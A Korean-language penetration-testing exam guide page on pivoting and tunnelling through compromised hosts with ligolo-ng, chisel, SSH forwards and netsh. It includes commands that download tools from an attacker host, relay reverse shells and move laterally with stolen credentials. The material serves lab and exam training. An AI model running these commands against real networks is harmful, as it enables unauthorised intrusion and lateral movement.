

# 피벗팅과 터널링 { #pivoting-tunnelling }

<div class="dfir-meta" markdown>
**중요한 곳:** AD 세트 — 내부 서브넷 접근 · **우선순위:** 높음 · **최종 수정:** 2026-11-03
</div>

!!! abstract "한 문장 요약"
    2025–2026년 후기에서 가장 많이 나오는 실패 원인입니다. 첫 머신은 땄는데 그 뒤의 내부망으로 트래픽을 못 넘기는 경우죠. 해결책이 피벗팅입니다 — 장악한 호스트가 내 도구의 트래픽을 안쪽으로 날라 주게 만드는 거예요.

## 1. 개념 { #concept }

### 피벗이 필요한 때 { #when-to-pivot }

아직 못 닿는 네트워크가 있다는 신호:

- 발판에서 `ipconfig /all` 또는 `ip addr` 이 다른 서브넷의 **두 번째 인터페이스** 를 보여줌.
- 어떤 호스트가 `127.0.0.1` 에만 묶인 서비스를 가지고 있음.
- BloodHound / 정보 수집이 Kali에서 ping이나 스캔이 안 되는 머신 이름을 보여줌.

문제의 모양: Kali는 발판과 통신할 수 있고, 발판은 내부 호스트와 통신할 수 있지만, Kali는 내부 호스트와 직접 통신할 수 없습니다. 그래서 발판을 거쳐 경로를 냅니다.



### 피벗의 세 종류 { #pivot-types }

| 종류 | 얻는 것 | 도구 |
|---|---|---|
| **L3 터널** | Kali에 진짜 라우트 — 모든 도구가 그대로 동작 | ligolo-ng |
| **SOCKS 프록시** | 프록시 포트; 도구는 `proxychains` 를 거쳐 실행 | chisel, `ssh -D` |
| **단일 포트 포워드** | 원격 포트 하나가 Kali에 나타남(또는 반대) | `ssh -L/-R`, chisel `R:`, ligolo-ng listener |

## 2. 주요 도구 { #tools }

| 도구 | 용도 | 시험 허용 여부 |
|---|---|---|
| **ligolo-ng** | 기본 선택: TUN 인터페이스, 라우트, 리스너, 이중 피벗 | 허용 |
| **chisel** | 대안: HTTP 위 리버스 SOCKS와 포트 포워드 | 허용 |
| **ssh** | 리눅스 피벗에 SSH가 될 때 `-L`, `-R`, `-D` | 허용 |
| **proxychains4** | SOCKS 프록시를 거쳐 도구 실행 | 허용 |
| **netsh portproxy / socat** | Windows / Linux 피벗의 빠른 단일 포트 릴레이 | 허용 |

!!! danger "시험 규칙 — Metasploit 피벗 금지"
    Meterpreter `autoroute`, `portfwd`, socks 프록시 모듈은 Metasploit을 두 대 이상에 쓰는 것으로 칩니다 — 허용 안 돼요. 이 페이지의 단독 도구를 쓰세요. [Metasploit 제한](exam-format.md#metasploit) 참고.

## 3. 시나리오 { #scenarios }

### 3.1 ligolo-ng — 서브넷 전체 라우팅 { #ligolo-ng }

**상황:** MS01에 셸이 있고, `ipconfig` 에 두 번째 NIC의 `10.10.120.0/24` 가 보임.

**1. Kali에서 한 번만 — tun 인터페이스 만들기:**

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

**2. Kali에서 proxy(리스너) 시작:**

```bash
./proxy -selfcert          # 랩/시험용; 기본으로 0.0.0.0:11601 에서 대기
```

**3. 장악한 호스트에서 agent 실행**, Kali를 가리키게:

=== "Linux 대상"

    ```bash
    ./agent -connect <KALI_IP>:11601 -ignore-cert
    ```

=== "Windows 대상"

    ```powershell
    .\agent.exe -connect <KALI_IP>:11601 -ignore-cert
    ```

`-ignore-cert` 는 `-selfcert` 와 함께 랩/시험에서만 씁니다.

**4. proxy 콘솔에서 세션을 고르고 내부 서브넷 라우트 추가:**

```text
ligolo-ng » session
ligolo-ng » interface_add_route --name ligolo --route 10.10.120.0/24
ligolo-ng » tunnel_start --tun ligolo
```

!!! note "버전마다 명령 이름이 다릅니다"
    구버전은 콘솔에서 `start` 를 쓰고 Kali에서 라우트를 직접 추가합니다(`sudo ip route add 10.10.120.0/24 dev ligolo`). proxy 콘솔에서 `help` 로 내 버전의 명령을 확인하고 — 시험에 가져갈 버전 기준으로 치트시트를 맞춰 두세요.

**볼 것:** proxy 콘솔의 `Agent joined`; `tunnel_start` 후 Kali의 `ip route` 에 `10.10.120.0/24 dev ligolo`.

**다음:** Kali에서 바로 스캔하고 공격:

```bash
nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS"
nmap -sT -Pn --top-ports 200 10.10.120.142      # 터널 너머로는 TCP connect만
evil-winrm -i 10.10.120.142 -u svc_sql -p 'Found_Pass1'
```

### 3.2 ligolo-ng — 내부 호스트의 리버스 셸과 다운로드 { #ligolo-listeners }

**상황:** MS02(내부)를 익스플로잇했는데 리버스 셸이 Kali에 닿지 않음.

agent에 내 핸들러로 포트를 돌려주는 **listener** 를 추가합니다.

```text
ligolo-ng » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444 --tcp
ligolo-ng » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp      # 파일 서버
ligolo-ng » listener_list
```

페이로드는 **MS01의 내부 IP** `:4444` 로 향하게 하면, Kali의 `nc -lvnp 4444` 로 전달됩니다. 다운로드: `iwr http://<MS01_내부_IP>:8080/nc.exe ...` 가 Kali의 `python3 -m http.server 80` 에 닿아요.

!!! tip "피벗의 방화벽"
    Windows 피벗의 방화벽이 리스너 포트 인바운드를 막을 수 있어요. MS02가 접속을 못 하면 이미 허용된 포트를 쓰거나, (관리자로) 규칙을 추가하세요: `netsh advfirewall firewall add rule name=l dir=in action=allow protocol=tcp localport=4444`.

### 3.3 ligolo-ng — agent 자신의 localhost 접근 { #ligolo-localhost }

장악한 호스트 자신의 `127.0.0.1` 에 묶인 서비스에 닿으려면, Ligolo-ng가 쓰지 않는 대역 `240.0.0.0/4` 를 agent의 루프백에 매핑합니다.

```bash
sudo ip route add 240.0.0.1/32 dev ligolo
```

그다음 `240.0.0.1` 을 대상으로 — 예를 들어 `127.0.0.1:8000` 의 내부 관리 패널이 `http://240.0.0.1:8000` 이 됩니다.

### 3.4 이중 피벗 { #double-pivot }

**상황:** MS02에 MS01이 닿지 못하는 세 번째 서브넷(`172.16.10.0/24`)의 NIC가 있음.

첫 번째 agent에 제어 채널을 proxy로 되돌려주는 listener를 추가합니다.

```text
ligolo-ng » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

MS02에서 두 번째 agent를 **MS01의** 내부 IP 그 포트로 연결합니다. Kali에 두 번째 인터페이스를 만들고(`sudo ip tuntap add user $(whoami) mode tun ligolo2; sudo ip link set ligolo2 up`), 새 세션을 골라 `172.16.10.0/24` 를 `ligolo2` 로 라우팅하세요. 각 홉이 제어 채널을 한 단계씩 되돌려 결국 Kali에 닿는 구조입니다.

### 3.5 chisel — 대안 { #chisel }

**상황:** ligolo-ng agent가 막혔거나 아키텍처가 특이함.

```bash
# Kali (server)
./chisel server -p 8000 --reverse
```

```powershell
# 대상 (client) — Kali로 리버스 SOCKS (Kali에 127.0.0.1:1080 생성)
.\chisel.exe client <KALI_IP>:8000 R:socks
# 포트 하나만: 내부 10.10.120.142:5985 → Kali 127.0.0.1:5985
.\chisel.exe client <KALI_IP>:8000 R:5985:10.10.120.142:5985
```

`/etc/proxychains4.conf` 에 `socks5 127.0.0.1 1080` 을 넣고, 도구 앞에 `proxychains -q` 를 붙입니다.

```bash
proxychains -q nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS"
proxychains -q impacket-psexec "$DOMAIN/admin:Pass@10.10.120.142"
```

**볼 것:** 서버의 `session#1: Client version ... connected`. proxychains에서 타임아웃 → nmap은 `-sT -Pn`, 포트 목록은 짧게.

### 3.6 SSH 포워딩 { #ssh-forwarding }

**상황:** 리눅스 피벗의 SSH 크리덴셜이나 키가 있음 — 업로드가 필요 없습니다.

| 목표 | 명령 | 효과 |
|---|---|---|
| 내부 포트 하나 닿기 | `ssh -L 8080:10.10.120.142:80 user@pivot` | Kali `localhost:8080` → 내부 `:80` |
| 피벗 자신의 localhost | `ssh -L 3306:127.0.0.1:3306 user@pivot` | Kali `localhost:3306` → 피벗의 MySQL |
| Kali 포트를 피벗에 노출 | `ssh -R 4444:127.0.0.1:4444 user@pivot` | 피벗 `:4444` → Kali `:4444` (리버스 셸) |
| 서브넷 전체 SOCKS | `ssh -D 1080 user@pivot` | Kali `:1080` 의 SOCKS 프록시 → proxychains와 함께 |

셸 없이 백그라운드로 돌리려면 `-N -f`. 이미 SSH 세션 안이라면 줄 맨 앞에서 `~C` 를 쳐서 즉석으로 포워드를 추가할 수 있어요.

### 3.7 Windows 내장 포트 포워드 — netsh { #netsh }

**상황:** Windows 피벗의 관리자이고, 아무것도 올리지 않고 단일 포트 릴레이를 빨리 만들고 싶음.

```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8445 connectaddress=10.10.120.142 connectport=445
netsh interface portproxy show all
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8445    # 정리
```

### 3.8 내부 호스트로 파일 전송 { #file-transfer }

라우트가 생기면 Kali에서 파일을 서빙하고 끌어옵니다.

```bash
python3 -m http.server 80           # Kali에서
```

```powershell
iwr http://<KALI_IP>/winPEAS.exe -OutFile C:\Windows\Temp\wp.exe   # 대상에서 (ligolo 라우트)
```

ligolo-ng 라우트만으로는 내부 호스트가 Kali로 돌아오는 길이 없습니다 — agent의 [listener](#ligolo-listeners)나 그것을 거쳐 닿는 SMB 서버(`impacket-smbserver share . -smb2support`)를 쓰세요. 더 보기 → [셸과 파일 전송](shells-file-transfer.md).

## 4. 자주 하는 실수 { #mistakes }

- **터널 너머 SYN / ping 스캔.** SOCKS로는 완전한 TCP connect만 됩니다: `nmap -sT -Pn`. Ligolo-ng는 ICMP를 처리하지만 스캔은 여전히 느리니 포트 목록을 짧게.
- **돌아오는 길을 잊음.** 라우트는 Kali → 내부 방향이고, 내부 호스트의 리버스 셸에는 listener / `-R` 포워드가 필요합니다.
- **라우트 겹침** — `tun0` VPN 대역과 내부 대역이 겹치거나, 이전 세션의 ligolo 라우트가 남아 있음(`ip route` 로 확인, `sudo ip route del ...`).
- **피벗 셸이 죽으면 터널도 죽음.** agent를 별도 프로세스로 띄워(`Start-Process`, `nohup ... &`) 셸과 상관없이 살아 있게 하세요.
- **이름 없이 터널 너머 Kerberos.** 내부 호스트를 `/etc/hosts` 에 넣고 호스트 이름을 쓰세요.

## 5. 시험 팁 { #exam-tips }

- ligolo-ng 설정이 외워서 2분 안에 끝날 때까지, 시험에 쓸 바로 그 버전으로 연습하세요.
- tools 폴더에 Windows(x64)와 Linux용 agent를 둘 다 넣어 두세요.
- 내부 서브넷, 피벗 호스트, 사용한 포워드를 기록하세요 — 리포트는 각 내부 머신에 어떻게 닿았는지 설명해야 합니다.

## 관련 페이지 { #related-pages }

- [시험 흐름](exam-workflow.md) · [Active Directory](active-directory.md) · [셸과 파일 전송](shells-file-transfer.md)
- [Nmap](../../pentesting/recon/nmap/index.md) — 터널 너머 스캔 (`-sT -Pn`)
- 방어자 관점: [네트워크](../../network/index.md) · [Beaconing / C2](../../network/beaconing-c2.md) · [Zeek](../../network/zeek/index.md)

## 참고 자료 { #references }

- [Ligolo-ng documentation](https://docs.ligolo.ng/)
- [Ligolo-ng — reaching the agent's localhost (240.0.0.0/4)](https://docs.ligolo.ng/Localhost/)
- [Chisel](https://github.com/jpillora/chisel)
